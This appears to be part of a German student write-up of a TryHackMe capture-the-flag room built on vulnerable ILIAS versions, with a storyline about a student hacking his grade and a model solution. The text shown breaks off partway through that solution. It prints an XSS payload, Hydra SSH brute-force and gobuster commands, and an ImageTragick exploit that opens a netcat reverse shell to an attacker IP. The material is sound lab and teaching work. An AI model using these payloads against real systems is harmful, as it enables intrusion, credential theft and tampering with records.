    Es ist eine flexible und leistungsstarke Lösung für Virtualisierungszwecke.
    Auf der virtuellen Maschine wurde dann eine Ubuntu-Serverinstanz eingerichtet.
    \href{https://ubuntu.com/server}{Ubuntu Server} ist eine kostenlose und Open-Source-Version des Ubuntu-Betriebssystems, speziell entwickelt für Serveranwendungen.
    Mit Fokus auf Sicherheit und Stabilität bietet es eine zuverlässige Umgebung für verschiedene Serverfunktionen wie Webserver, Datenbanken und E-Mail-Server.
    Mit der Unterstützung von APT für einfache Paketverwaltung, einer aktiven Community und Integration mit Cloud-Plattformen ist Ubuntu Server eine beliebte Wahl für skalierbare und flexible Serverumgebungen.
    Zudem wurde Ubuntu eingesetzt, da diese Linux Distribution am benutzerfreundlichsten ist.


    \subsection{MySQL Datenbank}
    \label{subsec:mysqlDatenbank}
    \href{https://www.mysql.com/}{MySQL} ist ein Open-Source-relationales Datenbankverwaltungssystem (RDBMS), das effiziente Speicherung, Verwaltung und Abfrage großer Datenmengen ermöglicht.
    Es organisiert Daten in Tabellen mit Zeilen und Spalten, bietet hohe Geschwindigkeit und Leistung, Skalierbarkeit für wachsende Datenmengen, Mehrbenutzerfähigkeit und Sicherheitsfunktionen.
    MySQL wird in einer Vielzahl von Anwendungen eingesetzt und ist besonders beliebt für Webanwendungen, Content-Management-Systeme, E-Commerce-Plattformen und Datenanalyse.
    Da die ILIAS-Instanz eine Datenbank benötigt, in der Bild-, Nutzer- und sonstige Daten gespeichert werden können, wurde ebenfalls auf eine MySQL Datenbank zurückgegriffen.
    Diese läuft in einem eigenständigen Docker Container und speichert vorwiegend Nutzerdaten.

    \subsection{Apache Server mit einem Debian Betriebssystem}
    \label{subsec:apacheServer}
    Der \href{https://httpd.apache.org/}{Apache Webserver} ist ein beliebter Open-Source-Webserver für das Hosting von Websites.
    Er bietet Leistung, Stabilität und eine modulare Architektur für zusätzliche Funktionen.
    Mit einer umfangreichen Konfigurationsmöglichkeit, Fokus auf Sicherheit und Unterstützung durch eine aktive Community ist der Apache Webserver eine verlässliche Lösung für das Bereitstellen von Webinhalten.
    \href{https://www.debian.org/}{Debian} ist eine beliebte und stabile Linux-Distribution, die auf dem Linux-Kernel basiert.
    Mit einem fortschrittlichen Paketverwaltungssystem, Fokus auf Stabilität und Sicherheit sowie einer vielseitigen Hardwareunterstützung ist Debian eine verlässliche Wahl für Desktop- und Serverumgebungen.
    Es wird von einer aktiven Community unterstützt und folgt den Prinzipien freier Software.
    Debian wurde als Linux Distribution für den Apache Webserver genutzt, da es sehr leichtgewichtig ist.
    Somit nimmt der Docker Container weniger Speicherplatz in Anspruch.

    \subsection{ILIAS mit ImageMagick}
    \label{subsec:iliasTechnologie}
    Die zwei virtuellen Maschinen arbeiten mit zwei verschiedenen ILIAS-Versionen.
    Auf der \ac{vm}1 für die \ac{xss}-Schwachstelle läuft die ILIAS-Version 5.2.3, da diese noch von der \hyperref[subsubsec:CVE-2018-5688]{CVE-2018-5688} betroffen ist.
    Hier wurde darauf verzichtet ImageMagick einzufügen, da die \hyperref[subsubsec:CVE-2016-3714]{ImageTragick}-Schwachstelle auch hier funktioniert.
    Auf der \ac{vm}2 hingegen läuft die ILIAS-Version 5.2.4 inklusive ImageMagick, da die \ac{xss}-Schwachstelle hier behoben ist und der Angreifer somit gezwungen ist, die ImageTragick-Schwachstelle auszunutzen.
    So wird eine klare Trennung der Schwachstellen erzielt.

    \subsection{Selenium}
    \label{subsec:selenium}
    \href{https://www.selenium.dev}{Selenium} ist ein Open-Source-Framework zur Automatisierung von Webbrowsern.
    Es ermöglicht die automatische Interaktion mit Webanwendungen, das Durchführen von Tests und das Überprüfen der Funktionalität.
    Mit Cross-Browser-Kompatibilität, Unterstützung verschiedener Programmiersprachen und Integration in Test-Frameworks ist Selenium ein flexibles und leistungsstarkes Werkzeug für die Webautomatisierung.
    Es wird von Entwicklern und Testern genutzt, um die Effizienz und Qualität von Webanwendungen zu verbessern.
    Es wurde ein Python-Skript mit Selenium erstellt, welches bei jedem (Re-)Boot der Maschine ausgeführt wird, um die, für die Storyline, nötigen Nutzeraccounts zu erstellen, da dies nur über das Graphical User Interface von ILIAS funktioniert.
    Zudem wird in der ersten Maschine auch der Kurs \glqq PSSWE\grqq\ erstellt, sowie die Flag als Forumeintrag eingetragen.
    Selenium läuft hierbei in einem eigenen Docker Container und stellt die Verbindung zu ILIAS über die Remote Webserver-Funktion her.
    Somit muss auf der Virtual Machine kein Selenium eingerichtet werden.
    Der Selenium Container baut die Verbindung zur ILIAS Instanz über die Docker-eigene IP-Adresse auf.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	4. Storyline
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
    \fill
    \newpage

    \section{Storyline}
    \label{sec:storyline}
    Hier geht es zum \href{https://tryhackme.com/jr/t1mth3h4ck3rb0y}{\textbf{TryHackMe Raum}}.\vspace{0.5cm}
    \\
    Die Storyline dreht sich rund um den jungen Studenten TimDerHackerboy.
    Dieser besucht im aktuellen Semester den Kurs \glqq Grundlagen der sicheren Software-Entwicklung\grqq, in dem den Studenten die Grundlagen in Bezug auf Schwachstellen und sichere Software vermittelt werden.
    Für TimDerHackerboy nichts allzu Neues, da er sich auch außerhalb seines Informatikstudiums oft mit Sicherheitslücken in allerhand Software beschäftigt und die OWASP TOP 10 für ihn ein Kinderspiel sind.
    Er konnte sogar schon erste Erfahrung als Berater für ein paar renommierte Firmen aus der Umgebung machen.
    Und eines sollte gesagt sein, in Heilbronn sind ein paar der renommiertesten Firmen Deutschlands ansässig.
    Genau deshalb hat TimDerHackerboy sein Studium die letzten Wochen aber auch schleifen lassen, die Praxis und das Geld waren einfach zu verlockend.
    All das weiß Professor SuperSicherAndi nicht, sein Student Tim ist schließlich nie zu den Vorlesungen erschienen und auch sonst glänzte er nicht gerade mit außerordentlichem Fleiß.
    Hier steht TimDerHackerboy also, die letzte Woche der Vorlesungszeit ist angebrochen und er hat noch nichts gemacht.
    Professor SuperSicherAndi hat die Studenten dazu verdonnert, ganze 35 TryHackMe Räume zu machen.
    Und als wäre das nicht genug, soll TimDerHackerboy auch noch einen eigenen TryHackMe Raum einwickeln und eine Ausarbeitung darüber schreiben.
    Ein Berg an Arbeit, der kaum zu bewältigen ist, Professor SuperSicherAndi wird ihn höchstwahrscheinlich durchfallen lassen.
    Doch Tim würde nicht den Spitznamen Hackerboy tragen, wenn er nicht eine bessere Idee hätte.
    Warum nicht einfach ILIAS hacken und sicher selber eine eins geben.
    Aus Gesprächen weiß er, viele Professoren verwaltete ihre Noten direkt in ILIAS, es sei schließlich sicher.
    TimDerHackerboy wird dabei durch zwei verschiedene \ac{vm}s geleitet.
    \ac{vm}1 ist mit der ILIAS Version 5.2.3 ausgestattet, welche für die in~\ref{subsubsec:CVE-2018-5688} erklärte XXS Schwachstelle anfällig ist.
    Für Tim gilt es hier sich Zugang zum Account des Professors SuperSicherAndi zu verschaffen und seine Note zu ändern, was ihm seine erste Flag einbringt.
    Im weiteren Verlauf gilt es seine Spuren nach einem erfolgreichen Brute-Forcen des SSH Logins zu beseitigen, er will schließlich nicht das der Professor ihm auf die Schliche kommt.
    Hiermit sichert er sich die zweite Flag und hat die \ac{vm}1 erfolgreich abgeschlossen.
    In \ac{vm}2 läuft die ILIAS Version 5.2.4 in Verbindung mit der ImageMagick Version 6.3.9-8 (\ref{subsubsec:CVE-2016-3714}).
    Mittels eines Exploits gilt es für Tim, sich Zugang zum Server mittels einer Reverse Shell zu verschaffen.
    Dort erwarten ihn eine falsch konfigurierte /etc/passwd Datei (\ref{subsubsec:fehlkonfiguration}) und ein anfällige Sudo Version (\ref{subsubsec:sudo}).
    Am Ende steht die Tim der Königsdisziplin entgegen, der Privilege Escalation.
    Meister er diese unter Verwendung der fehlerhaft konfigurierten Datei oder der Sudo Schwachstelle, findet er als root Nutzer seine letzte Flag.
    Ob Professor SuperSicherAndi TimDenHackerboy schlussendlich erwischt, das zeigt am Ende die Notenvergabe.
    Eines hat Tim aber bewiesen, sein Können im Bereich IT-Sicherheit.

    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{other_pictures/storyline}
        \caption{Storyline }
        \label{fig:storylineGraphic}
    \end{figure}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	Musterlösung
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

    \section{Musterlösung}
    \label{sec:musterloesung}

    %Freddy
    \subsection{Virtuelle Maschine 1}
    \label{subsec:virtuelle-maschine-1}
    Ziel von TimDerHackerboy ist es also seine Note im Fach PSSWE zu ändern und dabei bestenfalls keine Spuren zu hinterlassen.
    Wenn Tim versucht die login Seite zu besuchen wird er nur von einer weißen Seite begrüßt,
    er hat jetzt also zwei Probleme: Keine Login Seite und keine Login Credentials.
    Auf der Suche nach der Lösung einer dieser Probleme schaut er sich auch die robots.txt und stößt dabei auf einen interessanten Header.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{VM1_Bilder/robotstxt.PNG}
        \caption{Header der robots.txt Datei }
        \label{fig:robotsTxt}
    \end{figure}

    \noindent
    Nach einer kurzen Google Suche dieser Information in Kombination mit der Ilias Version findet er den passenden Eintrag auf \href{https://www.exploit-db.com/exploits/43595}{\textbf{exlpoit-db}}.
    In diesem Eintrag dreht es sich natürlich um den in~\ref{subsubsec:CVE-2018-5688} erwähnten \href{https://www.cve.org/CVERecord?id=CVE-2018-5688}{CVE-2018-5688}.
    Auf der Seite \textit{/setup/setup.php} kann man über den query Parameter \textit{?cmd=} ein script ausführen. Leider steht auf exploitDB nur der proof of concept,
    somit muss sich Tim seinen eigenen payload zusammen bauen. Durch sein Wissen aus dem Studium weiß Tim, dass JavaScript client-seitig ausgeführt wird, er kann also
    keine directorys nach der, in der robots.txt beschriebenen, SuperSecretFile.txt durchsuchen. Tim hofft also ersteinmal darauf, dass die Datei im momentanen root directory
    der Webseite \textit{/setup} liegt und baut sich auf dieser Basis seinen payload zusammen.

    \vspace{0.4cm}
    \begin{lstlisting}[label={lst:setupXSSpayload}]
        "><script>
            var xhr = new XMLHttpRequest();
            var fileUrl = './SuperSecretFile.txt';
            xhr.open('GET', fileUrl, true);
            xhr.onload = function () {
             if (xhr.status === 200) {
                var fileContents = xhr.responseText;
                alert(fileContents);
               }
            };
        xhr.send();
        </script>
    \end{lstlisting}
    \vspace{0.3cm}

    \noindent
    Tatsächlich hat Tim Glück, die Datei befindet sich im root directory, dadurch kann er sich anstrengende Sucharbeit sparen. Wenn Tim seinen Payload ausführt
    bekommt er ein Javascript PopUp als Antwort, dieses Enthält den Nutzernamen \\ \glqq SuperSecureAndi\grqq\ und einen Hash. Hoffentlich verbirgt sich hinter dem Hash das Passwort
    zum Account, denkt sich Tim. Mithilfe von \href{https://crackstation.net/}{Crackstation.net} kann er den Hash knacken, das Passwort lautet \textit{iam123cute}, jedoch weiß Tim noch nicht ob er sich mit
    diesem Passwort tatsächlich einloggen kann, da er die login Seite noch nicht gefunden hat.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{VM1_Bilder/XSSHash.PNG}
        \caption{JavaScript PopUp mit Credentials und Treffer von Crackstation.net mit Passwort iam123cute}
        \label{fig:XSSHash}
    \end{figure}

    \noindent
    Tim ist sich sicher, dass die Login Seite existiert und die Entwickler sie nur versteckt haben. Nachdem seine manuelle Suche jedoch erfolglos blieb entschließt er
    sich ein Tool zum finden von directories zu benutzen. Für diese Art von Aufgabe eignet sich z.B. \href{https://github.com/OJ/gobuster}{gobuster}.
    Nach einem schnellen Scan mit dem Befehl \textit{gobuster dir -u http://<MACHINEIP>:8080 -w directory-list-2.3-medium.txt -x .php}
    entdeckt Tim tatsächlich, dass man durch die Datei insidersecrets.php auf die richtige login Seite weiter geleitet wird.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{VM1_Bilder/GobusterScan.PNG}
        \caption{Output des Gobuster Scans bis zum Ergebnis}
        \label{fig:GobusterScan}
    \end{figure}

    \noindent
    Jetzt kann Tim sich einloggen und sich ein wenig auf dem Account von SuperSecureAndi umschauen.
    Zu aller erst findet er den Kurs PSSWE, darin befindet sich ein Eintrag, indem sich die Note ändern lässt, hier befindet sich auch die 1. Flag.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{VM1_Bilder/ForumPost.PNG}
        \caption{Eintrag mit Note und Flag im Kurs PSSWE}
        \label{fig:ForumPost}
    \end{figure}

    \noindent
    Tim hat jetzt sein eigentliches Ziel erreicht, er hat seine Note von 5.0 auf 1.0 geändert und besteht dadurch mit Sicherheit das Fach PSSWE.
    Jedoch hat er beim herumstöbern einen auffälligen Banner auf der \glqq My Workspace\grqq\ Seite von SuperSecureAndi gefunden und entschließt sich dem Ganzen auf den Grund zu gehen,
    vielleicht ist es ihm ja sogar möglich seine Spuren zu verwischen.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{VM1_Bilder/YellowBanner.PNG}
        \caption{Banner mit Infos über den SSH Zugang für Profs auf der \\ \glqq My Workspace\grqq\ Seite}
        \label{fig:YellowBanner}
    \end{figure}

    \noindent
    Tim versucht eine Weile das Passwort für den SSH Zugang von SuperSecureAndi heraus zu finden, jedoch ohne Erfolg. Mit seinem Latein etwas am Ende hofft Tim einfach,
    dass SuperSecureAndi ein standard Passwort verwendet und entschließt sich eine Brute-Force Attacke mit \href{https://github.com/vanhauser-thc/thc-hydra}{Hydra}
    zu starten. Und tatsächlich, bei Benutzung des Befehls \textit{hydra -V -l SuperSecureAndi -P rockyou.txt ssh://<MACHINEIP>:2222} gibt Hydra nach einer kurzen Weile das Passwort \textit{bubbles} zurück.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{VM1_Bilder/HydraBruteforce.PNG}
        \caption{Ergebnis der Bruteforce Attacke mit Hydra}
        \label{fig:HydraBruteforce}
    \end{figure}

    \noindent
    Jetzt hat Tim alles was er braucht um sich über SSH einzuloggen:
    Port, Nutzername und Passwort. Mit dem Befehl \textit{ssh -p 2222 SuperSecureAndi@<MACHINEIP>} kann sich Andi mit dem eben herausgefundenen Passwort auf die Maschine einwählen.
    Dort werden ihm dann auch direkt zwei Dateien dargelegt: IliasChangeLog.txt und ImportantNote.txt.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{VM1_Bilder/IliasChangelog.PNG}
        \caption{Inhalt der IliasChangeLog.txt Datei}
        \label{fig:IliasChangelog}
    \end{figure}

    \noindent
    Durch das Öffnen der IliasChangeLog.txt findet Tim die 2. Flag, außerdem kann er den SECURITYINFO Eintrag über das ändern der Note löschen. Jetzt bleibt nur die
    ImportantNote.txt Datei.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{VM1_Bilder/ImportantNote.PNG}
        \caption{Inhalt der ImportantNote.txt Datei}
        \label{fig:ImportantNote}
    \end{figure}

    \noindent
    Jetzt ist Tims Interesse so richtig geweckt! Temporäre Zugangsdaten für einen Entwicklungsserver mit einer neuen Ilias Version! Auch wenn Tim
    seine eigentliche Mission abgeschlossen hat macht er sich direkt auf zur nächsten Virtual Machine in der Hoffnung, dass auch dort Geheimnisse
    darauf warten von ihm gelüftet zu werden.


    \subsection{Virtuelle Maschine 2}
    \label{subsec:vm2}
    Nachdem TimDerHackerboy sicher erfolgreich durch die \ac{vm}1 gekämpft hat und sogar Credentials für neue ILIAS Version 5.2.3 in die Finger bekam, wird es Zeit für eine neue Aufgabe.
    Die neue ILIAS Version wird durch Administratoren der Hochschule gerade neu aufgesetzt und ist noch nicht für die Studenten zugänglich.
    Die Verantwortlichen der Hochschule, zu denen auch der Professor SuperSicherAndi zählt, entschieden sich so die bekannte XSS Schachstelle aus Version 5.2.3 zu beheben.
    Doch Tims Nachname wäre nicht Hackerboy, würde er sich nicht direkt an die Arbeit machen und den Administratoren zeigen, dass sie ihre Arbeit nicht richtig machen.
    So könnte er Professor SuperSicherAndi sicher überzeugen, dass er die eins auf jeden Fall verdient hat, sollte dieser ihm trotz aller Vorsichtsmaßnahmen auf die Schliche kommen.

    \subsubsection{ImageMagick Schwachstelle finden und Payload erstellen}
    \label{subsubsec:imageMagickFinden}

    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/loginAlsDev01}
        \caption{Login mit den in~\ref{subsec:virtuelle-maschine-1} erworben Credentials \textit{tempdev01}
        \break und \textit{tempAccount01}} .
        \label{fig:loginAlsDev}
    \end{figure}
    
    Komplett vertieft will Tim sich direkt mit den Credentials einloggen.
    Als er die Login-Seite kurz überfliegt, fallen ihm die Wort \textit{using ImageMagic(v6.9.3-8)} direkt auf.
    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{storyline_bilder_vm2/loginPageHinweisImageMagick}
        \caption{Login Page ILIAS zeigt Hinweis auf eingebundene ImageMagick Version}
        \label{fig:loginPageHinweis}
    \end{figure}

    \noindent
    Er hatte vor kurzem etwas über ImageTragick gelesen.
    Und wie so oft, bietet \href{https://www.exploit-db.com/exploits/39767}{\textbf{exlpoit-db}} direkt die richtigen Informationen.

    \vspace{0.4cm}
    \begin{lstlisting}[label={lst:imageMagickExploit}]
        exploit.mvg
        -=-=-=-=-=-=-=-=-
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://example.com/image.jpg"|ls "-la)'
        pop graphic-context
    \end{lstlisting}~\parencite{imagemagickExploit}
    \vspace{0.3cm}
    \\
    Dieser Exploit zeigt nach dem Ausführen eine Liste aller Dateien und Verzeichnisse im aktuellen Verzeichnis als Profilbild an.
    Das ist Tim jedoch nicht genug, er möchte eine Reverse Shell.
    Hacking \textcite{reverseShell} zeigt ein Beispiel für eine Netcat Reverse Shell: \textit{nc Ziel-IP Port –e /bin/bash}.
    Es gilt abschließend den in~\ref{lst:imageMagickExploit} beschriebene Exploit um die Netcat Reverse Shell ergänzen.
    Dass der Exploit ausgeführt wird, ist darauf zurückzuführen, dass ImageMagick versucht das Dateiformat anhand des Inhalts festzustellen.
    Beim Erstellen des Exploits gilt es zu beachten, dass es sich bei dem Zielserver um einen Linux System handelt, welches nur unix Linebreaks versteht.
    Jedes in Windows geöffnete oder erstellt Datei muss demnach vorher umgewandelt werden, da der Exploit sonst fehlschlagen wird.
    Um das zu erreichen, helfen Tools wie Notepad++ oder das Kommandozeilenprogramm dos2unix:
    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] Datei in Notepad++ öffnen --> Menüpunkt \textit{Bearbeiten} auswählen --> \textit{EOL-Konvertierung} wählen --> \textit{Unix(LF)}.
        \item[2.] Oder \textit{dos2unix filename.txt} in die Kommandozeile eingeben.
        Es gilt zu Beachten, dass nicht jedes System dos2unix unterstützt.
    \end{enumerate}


    \vspace{0.4cm}
    \begin{lstlisting}[label={lst:imageMagickExploitFinal}]
        #Als .txt bearbeiten und in einem akzeptiertem Dateiformat speichern
        #Lokale IP und Zielport tauschen
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://example.com/image.jpg"|nc 10.101.0.137 4444 "-e/bin/bash '
        pop graphic-context
    \end{lstlisting}
    \vspace{0.3cm}

    \subsubsection{Verbindung mittels Reverse Shell herstellen und stabilisieren}
    \label{subsubsec:verbindungHerstellen}
    Im nächsten Schritt gilt es mittels dem in~\ref{subsubsec:imageMagickFinden} erstellten Exploit eine Verbindung zum Server herzustellen.
    Dazu muss Tim einen Netcat Listener erstellen, der den durch den Exploit angestoßenen Verbindungsversuch entgegennimmt.
    Das kann mittels des nc Befehls wie folgt erreicht werden: \textit{nc -lvnp zielIP zielport}.
    Wird nun der Exploit als Profilbild gespeichert,
    \begin{figure}[H]
        \centering
